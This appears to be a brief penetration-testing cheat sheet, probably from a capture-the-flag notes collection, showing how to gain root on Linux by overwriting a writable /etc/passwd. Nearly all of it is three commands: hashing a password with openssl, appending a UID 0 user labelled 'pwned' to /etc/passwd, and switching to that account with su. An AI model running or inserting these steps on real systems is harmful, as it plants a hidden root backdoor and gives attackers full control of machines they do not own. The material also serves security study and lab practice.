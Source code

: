

# Overwriting

#securing-root 

Overwriting the `/etc/passwd` file can allow for a creation or modification of an existing user.

## Securing Root

```
openssl passwd -1 a
```

```
echo 'a:<HASH>:0:0:pwned:/root:/bin/bash' >> /etc/passwd
```

```
su - a
```